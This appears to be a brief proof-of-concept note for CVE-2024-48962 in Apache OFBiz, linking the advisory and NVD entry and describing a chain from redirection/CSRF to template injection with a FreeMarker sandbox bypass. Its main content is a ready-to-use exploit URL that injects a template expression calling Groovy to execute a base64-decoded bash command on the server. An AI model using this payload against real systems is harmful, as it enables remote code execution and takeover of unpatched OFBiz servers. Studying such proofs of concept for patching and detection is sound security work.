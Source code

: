Simple redirection/CSRF to SSTI with freemarker sandbox bypass leading to RCE:
- https://lists.apache.org/thread/mmo13ko5xn50f2yq4z0dfk9fdj8ffgt6
- https://nvd.nist.gov/vuln/detail/CVE-2024-48962

poc:
```
https://domain/partymgr/control/viewprofile?partyId=${Static["org.apache.ofbiz.base.util.GroovyUtil"].eval("\'bash -c {echo,B64}|{base64,-d}|bash\'.execute()",null)}
```
